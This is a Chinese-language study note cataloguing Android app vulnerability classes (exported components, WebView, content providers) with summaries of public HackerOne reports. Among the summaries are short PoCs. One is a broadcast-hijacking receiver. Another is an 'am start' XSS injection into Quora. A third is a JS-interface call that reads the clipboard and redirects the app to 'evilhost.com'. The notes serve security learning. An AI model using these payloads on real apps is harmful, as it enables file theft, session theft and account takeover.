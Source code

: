 # 各组件漏洞积累
* 各个组件，存的漏洞类型，这些漏洞的利用可能性有多大，被利用之后分别会产生什么样的效果
* ref 
1.https://www.evernote.com/l/AnGwFD3CIlRM7b8l0pISyUy45zhHdUStPsY/
2.https://developer.android.com/reference/classes

## 源码安全漏洞
* 代码混淆漏洞
* Dex保护漏洞
* so保护漏洞
* 调试设置漏洞

## 组件安全漏洞
* 组件导出漏洞

1.
[IRCCloud Android] Theft of arbitrary files leading to token leakage
https://hackerone.com/reports/288955

IRCCloud 任意文件读取
Nov 15, 2017

漏洞细节：
Activity导出 + directory traversal
向导出组件发送特殊构造的uri(包含.../， ..%2F..%2F) ,可以覆盖任意文件
(国外应用没有热补丁这种东西，因此很难RCE，但是仍然有可能进一步利用）

利用的可能性：
IRC类型，symlink

产生的效果：
任意窃取文件

TODO: 学习 symlink 利用

修复建议：设置exported=false；需要外部调用，添加自定义signature或signatureOrSystem级别的私有权限保护；需要暴露的组件严查输入参数，避免应用出现拒绝服务。

2. [Quora Android] Possible to steal arbitrary files from mobile device
https://hackerone.com/reports/258460
August 31, 2017

漏洞细节
UploadService组件 enabled 且 exported。导致任意第三方软件都可以启用这个组件，导致可以任意文件上传。

3. Harvest 任意文件读取
https://hackerone.com/reports/161710
February 10, 2017

extra1:
使用android.accounts.AccountManager 可防止account take over

extra2:
通过symlinks进行任意文件读取是一个很有效的手段，
而且不需要root。
symlink到sdcard会有一些问题，但是symlink到 /data/data/pwntarget/目录没有问题
nice report.

4. NextCloud应用文件上传广播劫持
https://hackerone.com/reports/167481
March 24, 2017

漏洞细节
poc: 注册一个reciever:
<receiver android:exported="true" android:enabled="true" android:name=".InterceptReceiver">
    <intent-filter android:priority="999"> //这里是接受广播的优先权吧
        <action android:name="FileUploader.UPLOAD_START"/>
        <action android:name="FileUploader.UPLOAD_FINISH"/>
        <action android:name="FileUploader.UPLOADS_ADDED"/>
    </intent-filter>
</receiver>

在manifest中静态注册的receiver将先于应用本身，

5. [IRCCloud Android] Opening arbitrary URLs/XSS in SAMLAuthActivity
https://hackerone.com/reports/283058
November 3, 2017
由于activity export
这不能算是洞吧 ...
但是也有危害，因为人不能看到真实的URL，可以用来钓鱼。

6. Dolphin浏览器未正确处理url scheme
https://github.com/VerSprite/research/blob/master/advisories/VS-2017-002.md
CVE-2017-17553
Dolphin Browser for Android Insecure Intent URI Scheme Parsing Vulnerability

7. Quora 导出组件导致的XSS
xss可以偷cookie，登陆账号，本质上为可以执行任意js代码，那么，就可以访问cookie然后回传。

poc:
  am start -n com.quora.android/com.quora.android.ActionBarContentActivity -e url 'http://test/test' -e html 'XSS<script>alert(123)</script>'
  
可以加载第三方js
可以通过一些定义的js接口做一些事情，例如获取剪切板内容
QuoraAndroid.getClipboardData()
QuoraAndroid.sendMessage(
"{\"messageName\":\"switchInstance\",\"data\":{\"host\":\"evilhost.com\",\"instance_name\":\"evilhost\",\"scheme\":\"https\"}}"
);
change the server address.

extra:
https://labs.mwrinfosecurity.com/blog/webview-addjavascriptinterface-remote-code-execution/

8. Dropbox访问非导出content provider
https://hackerone.com/reports/272044
dropbox的LoginOrNewAcctActivity组件exported，
通过向此组件传送一个intent extra，可以让这个Activity将此intent传递给未exported的content provider组件，
虽然在访问时对className进行了验证，但是没有对传进来的包名进行验证。
因为而可通过x这条链将信息偷出去

extra:
这种手段称为embedded intent?

9. 

* Activity组件漏洞
	activity绑定browserable与自定义协议
* ActivityManager漏洞


## Service组件漏洞

## Broadcast Receiver组件漏洞
* 权限管理不当
* BroadcastReceiver导出漏洞
* 动态注册广播组件暴露漏洞

## Content Provider组件漏洞
* 读写权限漏洞
* Content Provider中的SQL注入漏洞
* Provider文件目录遍历漏洞

## Intent组件漏洞
* 隐式意图调用漏洞
* 意图协议URL漏洞

## WebView组件漏洞
* Webview明文存储密码风险
* Webview远程代码执行漏洞
* Webview绕过证书校验漏洞
* WebView忽略SSL证书错误

## 数据安全漏洞
* 数据存储漏洞
* 数据加密漏洞
* 数据传输漏洞
* 日志信息漏洞

## 业务逻辑漏洞
* 权限漏洞
* 业务漏洞

# NEW I found
1. CVE-2019-5765: 1-click HackerOne account takeover on all Android devices
https://hackerone.com/reports/563870
2. [Grab Android/iOS] Insecure deeplink leads to sensitive information disclosure
https://hackerone.com/reports/401793
3.[Mail.Ru Android] Typo in permission name allows to write contacts without user knowledge
https://hackerone.com/reports/440749
4.Disclosure of all uploads to Cloudinary via hardcoded api secret in Android app
https://hackerone.com/reports/351555
5.[Zomato Android/iOS] Theft of user session
https://hackerone.com/reports/328486
6.Android - Access of some not exported content providers
https://hackerone.com/reports/272044
7.
